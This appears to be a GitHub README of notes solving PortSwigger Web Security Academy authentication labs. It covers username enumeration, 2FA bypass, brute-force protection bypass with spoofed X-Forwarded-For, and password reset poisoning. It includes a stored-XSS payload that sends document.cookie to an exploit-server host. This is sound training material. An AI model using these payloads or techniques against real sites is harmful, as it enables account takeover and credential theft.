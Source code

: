 # Authentication

## Username enumeration via different responses
  1) Notice that other responses contain the message Invalid username, but this response says Incorrect password. Make a note of the username.
  2) Bruteforce password: username=identified-user&password=§invalid-password§ ;

## 2FA code simple bypass
  When prompted for the verification code, manually change the URL to navigate to /my-account.

## Password reset broken logic
  1) Delete the value of the **temp-forgot-password-token** parameter in both the URL and request body.
  2) Change the username parameter to carlos. Set the new password to whatever you want and send the request.

## Username enumeration via subtly different responses
  Grep - Extract string for column to check: "Invalid username or password." Or maybe it can be "Invalid username or pass" after username becomes correct.

## Username enumeration via response timing
  When you enter a valid username (your own), the response time is increased depending on the length of the password you entered. 
  1) Set the password to a very long string of characters (about 100 characters should do it).
  2) Add X-Forwarded-For: $1$ - and brute force it to 200 or more. - it will spoof your IP, so its ByPass.

## Broken brute-force protection, IP block
  Brute Force with this order (your IP is temporarily blocked if you submit 3 incorrect logins in a row): 
  1) Login into your existed account 1 time.
  2) 3 times try to bruteforce another accounts.
  3) Repeat.

## Username enumeration via account lock
  1) Try to lock user account with Null payloads (generate fx 5 payloads for 1 username);
  2) Notice that the responses for one of the usernames were longer than responses when using other usernames.
     
-----------------------Privilage Escalation (you must need access in at least 1 account already)----------------------------
     
## 2FA broken logic
  But you already need to have at least 1 account.

    With Burp running, log in to your own account and investigate the 2FA verification process. Notice that in the POST /login2 request, the verify parameter is used to determine which user's account is being accessed.
    Log out of your account.
    Send the GET /login2 request to Burp Repeater. Change the value of the verify parameter to carlos and send the request. This ensures that a temporary 2FA code is generated for Carlos.
    Go to the login page and enter your username and password. Then, submit an invalid 2FA code.
    Send the POST /login2 request to Burp Intruder.
    In Burp Intruder, set the verify parameter to carlos and add a payload position to the mfa-code parameter. Brute-force the verification code.
    Load the 302 response in the browser.
    Click My account to solve the lab.

  https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-broken-logic

## Brute-forcing a stay-logged-in cookie
  1) Notice stay-logged-in cookie something like `wiener:51dc30ddc473d43a6011e9ebba6ca770`;
  2) Hash your password using MD5 to confirm that = `base64(username+':'+md5HashOfPassword)` ;
  3) Send GET /my-account request to burp intruder.
  4) Under Payload processing, add the following rules in order. These rules will be applied sequentially to each payload before the request is submitted.

    Hash: MD5
    Add prefix: carlos:
    Encode: Base64-encode

  5) Add a grep match rule to flag any responses containing the string "Update email" - becouse it will apear only if you logged in.

## Offline password cracking (stay-logged-in)
  1) Notice that you have stay-logged-in: `username+':'+md5HashOfPassword`;
  2) You now need to steal the victim user's cookie. Observe that the comment functionality is vulnerable to XSS;
  3) Go to the blog posts comment and paste: `<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>`
  4) Decode the cookie in Burp Decoder. The result will be: `carlos:26323c16d5f4dabff3bb136f2460a943`
  5) Copy the hash and paste it into a search engine or Decode.

## Password reset poisoning via middleware
  1) Send the **POST /forgot-password** request to Burp Repeater.;
  2) add **X-Forwarded-Host:** YOUR-EXPLOIT-SERVER-ID.exploit-server.net;
  3) Change the username parameter to **carlos** and send.
  4) Obtain **temp-forgot-password-token** on your exploit server and change the carlos password.

## Password brute-force via password change
  This is just experimets with the password change functionality. Notice the behavior when you enter the wrong current password or other inputs.
  Rare and not so complicated topic.
     
  `username=carlos&current-password=§incorrect-password§&new-password-1=123&new-password-2=abc`

  https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-brute-force-via-password-change
